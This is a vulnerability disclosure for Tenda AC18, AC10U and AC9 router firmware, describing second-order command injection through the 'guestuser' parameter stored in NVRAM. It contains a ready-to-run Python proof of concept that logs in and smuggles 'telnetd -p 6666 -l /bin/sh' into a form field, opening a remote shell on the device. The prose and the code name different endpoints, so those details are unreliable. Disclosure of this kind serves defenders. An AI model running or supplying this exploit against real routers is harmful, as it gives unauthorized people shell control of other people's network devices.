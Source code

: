 

I found a command injection vulnerability in the Tenda router's webserver. While processing the `guestuser` parameters for a post request to `/goform/SetStaticRouteCfg`, the payload is directly stored into NVRAM. When a post request is sent again to `/goform/SetStaticRouteCfg`, the payload is read from NVRAM and executed. It's like Second-Order SQL Injection Attack. The details are shown below:


## Overviw

Vendor: Tenda

Product:
- AC18 device, Firmware V15.03.05.19(6318) and earlier version
- AC10UV1.0 device, Firmware V15.03.06.49 and earlier version
- AC9V1.0 device, Firmware V15.03.05.19 and earlier version
- AC9V3.0 device, Firmware V15.03.06.42 and earlier version

Vulnerability type: command injection

Discoverer: longuan@iie 


## Details

1. First, `websGetVar()` retrieves the content of `guestuser` from HTTP POST request, then store it into NVRAM using `SetValue("usb.samba.guest.user", v7);`.

![image](/vulns/Tenda/images/details-3-1.png)

2. Then we access this function again. It will load the previously stored payload using `GetValue("usb.samba.guest.user", s);`. The payload directly passed to `doSystemCmd("busybox deluser %s", s);`, which cause a RCE.

![image](/vulns/Tenda/images/details-3-2.png)


## PoC

```py
# coding:utf-8

import requests

header = {
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

s = requests.session()
s.headers.update(header)

# login 
login_req = s.post("http://192.168.0.1/login/Auth", data="username=admin&password=70ebc4f9c9d22827a5874d1bb6f06abd")

# First, store telnet payload into NVRAM. `telenetd -p 6666 -l /bin/sh` 
req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1%3btelnetd%20-p%206666%20-l%20/bin/sh%3b&guestaccess=r&internetPort=21")

# Second, send a post request again, trigger the vulnerability.
req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1&guestaccess=r&internetPort=21")
print(req.text)

# Finally, using `telnet 192.168.0.1 6666` in terminal can get router's shell
```

![image](/vulns/Tenda/images/poc-3-1.png)



p.s.Given the vendor's security, we only provide parts of the URL.